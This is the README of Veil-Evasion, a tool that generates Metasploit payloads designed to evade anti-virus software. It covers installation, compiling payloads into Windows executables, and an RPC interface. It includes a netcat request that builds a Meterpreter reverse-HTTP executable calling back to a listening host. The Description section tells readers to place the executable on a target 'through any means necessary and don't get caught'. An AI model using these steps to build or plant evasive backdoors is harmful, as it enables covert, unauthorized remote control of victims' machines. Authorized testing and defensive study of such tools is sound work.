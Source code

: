 # Veil-Evasion

Veil-Evasion is a tool designed to generate metasploit payloads that bypass common anti-virus solutions.

> NOTE: `./setup/setup.sh` should be re-run on every major version update. If you receive any major errors on running Veil-Evasion, first try re-running this script to install any additional packages and update the common configuration file.

Veil-Evasion is currently under active support by @ChrisTruncer, @TheMightyShiv, @HarmJ0y.

Thanks to:
* @jasonjfrank
* @mjmaley
* @davidpmcguire

## Software Requirements:

### Linux

1.  Use Kali (x86) and all dependencies are pre-installed

**or**

1.  Install Python 2.7
2.  Install PyCrypto >= 2.3

### Windows (for Py2Exe compilation)

1.  Python (tested with x86 - http://www.python.org/download/releases/2.7/)
2.  Py2Exe (http://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/)
3.  PyCrypto (http://www.voidspace.org.uk/python/modules.shtml)
4.  PyWin32 (http://sourceforge.net/projects/pywin32/files/pywin32/Build%20218/pywin32-218.win32-py2.7.exe/download)

## Setup (tl;dr)

> NOTE: Installation must be done with superuser privileges. If you are not using Kali Linux, prepend each command with `sudo` or change to the root user before beginning.

Run `setup.sh -c` on Kali x86.

Install Python 2.7, Py2Exe, PyCrypto, and PyWin32 on a Windows computer (for Py2Exe).

### Quick Install

```bash
apt-get -y install git
git clone https://github.com/Veil-Framework/Veil-Evasion.git
cd Veil-Evasion/
cd setup
setup.sh -c
```

### Regenerating Config

> NOTE: This must be done with superuser privileges. If you are not using Kali Linux, prepend each command with `sudo` or change to the root user before beginning.

Most of the time the config file at `/etc/veil/settings.py` will not need to be rebuilt but in some cases you might be prompted to do so. The file is generated by `config/update.py`.

It is important that you are in the config/ directory before executing update.py. If you are not, settings.py will be incorrect and when you launch Veil-Evasion you will see the following.

```bash
    Main Menu

            0 payloads loaded
```

Don't panic. Enter the config/ dir and re-run update.py.

## Description

Veil-Evasion was designed to run on Kali Linux, but should function on any system capable of executing python scripts.  Simply call Veil-Evasion from the command line, and follow the menu to generate a payload.  Upon creating the payload, Veil-Evasion will ask if you would like the payload file to be converted into an executable by Pyinstaller or Py2Exe.

If using Pyinstaller, Veil-Evasion will convert your payload into an executable within Kali.

If using Py2Exe, Veil-Evasion will create three files:

* payload.py - The payload file
* setup.py - Required file for Py2Exe
* runme.bat - Batch script for compiling the payload into a Windows executable

Move all three files onto your Windows machine with Python installed.  All three files should be placed in the root of the directory Python was installed to (likely C:\Python27).  Run the batch script to convert the Python script into an executable format.

Place the executable file on your target machine through any means necessary and don't get caught!

## RPC Server
On the listener side, run:

`./Veil-Evasion --rpc`

This will start a listener on port 4242.

On the client side, you will need to run a client program. This can be a custom script or can be as simple as Netcat. The RPC server implements JSON-RPC. This is a good reference for interpreting requests and responses for JSON-RPC: http://json-rpc.org/wiki/specification

The RPC request format is as follows:

```
    method="version"            -   return the current Veil-Evasion version number
    method="payloads"           -   return all the currently loaded payloads
    method="payload_options"
        params="payload_name"   -   return the options for the specified payload
    method="generate"
        params=["payload=X",   
                "outputbase=Y"
                "overwrite=Z",
                "msfvenom=...",
                "LHOST=blah]     -   generate the specified payload with the given options and returns the path of the generated executable
```

This is a simple example of working with Veil-Evasion using Netcat:


```
root@kali:~# nc 127.0.0.1 4242
{"method":"version","params":[],"id":0}
```

And the server response:


```
{"id":0,"result":"2.21.4","error":null}

```

An example of a client program can be found here: http://github.com/miligulmohar/python-symmetric-jsonrpc/blob/master/examples/client.py

> NOTE: The port for Veil-Evasion is 4242. This must be changed in client.py in order to work with it.

In order to generate a payload, *ALL* parameters must be included:

* payload - which payload to generate
* outputbase - the name to save the payload as
* LHOST - the ip address for the listening host
* LPORT - the port for the listening host
* pwnstaller - True to package python programs into an executable. False if not. Ignored for other payloads

This is a good reference to understand whether or not in use pwnstaller: http://www.verisgroup.com/blog/2014/05/07/pwnstaller-and-the-veil-framework/

An example of generating a payload:

```
root@kali:~# nc 127.0.0.1 4242
{"method":"generate","params":["payload=c/meterpreter/rev_http","outputbase=payloadName","LHOST=192.168.1.11","LPORT=2121","pwnstaller=False"],"id":1"}
```

And the server response:

```
{"id":8,"result":"/usr/share/veil-output/compiled/payloadName.exe","error":null}
```

> NOTE: If there is no id specified in the request, Veil-Evasion will shut down. That being said, you can make as many valid requests as you would like until Veil-Evasion shuts down.

To shut down the RPC server run:

`./Veil-Evasion --rpcshutdown`
